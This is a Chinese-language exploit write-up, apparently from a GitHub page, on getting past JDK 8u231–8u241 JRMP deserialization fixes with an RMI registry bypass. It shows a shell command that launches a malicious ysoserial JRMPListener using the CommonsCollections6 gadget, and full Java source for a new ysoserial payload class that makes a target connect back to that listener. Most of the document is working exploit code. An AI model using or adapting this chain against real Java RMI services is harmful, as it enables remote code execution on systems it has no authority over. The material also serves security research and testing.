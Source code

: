 * jdk231<=version<jdk241时，由于jdk对于JRMP反序列化的修复，ysoserial中的JRMPClient无法使用，但是有另一条类似思路实现的链子可以利用[Trinhs RMI 注册表旁路 |MOGWAI 实验室 (mogwailabs.de)](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)

```shell
# 同样先打开恶意JRMP服务
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中添加该链

```java
package ysoserial.payloads.rmi;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.Reflections;
import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.server.*;
import java.util.Random;

public class RMIConnectWithUnicastRemoteObject implements ObjectPayload<Object> {
    public Object getObject(final String command) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);

        //1.UnicastRef对象 -> RemoteObjectInvocationHandler
        //obj是UnicastRef对象，先RemoteObjectInvocationHandler封装
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) new UnicastRef(new LiveRef(id, te, false)));
        //2. RemoteObjectInvocationHandler -> RMIServerSocketFactory接口
        //RemoteObjectInvocationHandler通过动态代理封装转化成RMIServerSocketFactory
        RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
            RMIServerSocketFactory.class.getClassLoader(),// classloader
            new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
            handler// RemoteObjectInvocationHandler
        );
        //通过反射机制破除构造方法的可见性性质，创建UnicastRemoteObject实例
        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
        //3. RMIServerSocketFactory -> UnicastRemoteObject
        //把RMIServerSocketFactory塞进UnicastRemoteObject实例中
        Reflections.setFieldValue(remoteObject, "ssf", serverSocketFactory);
        return remoteObject;
    }
}
```
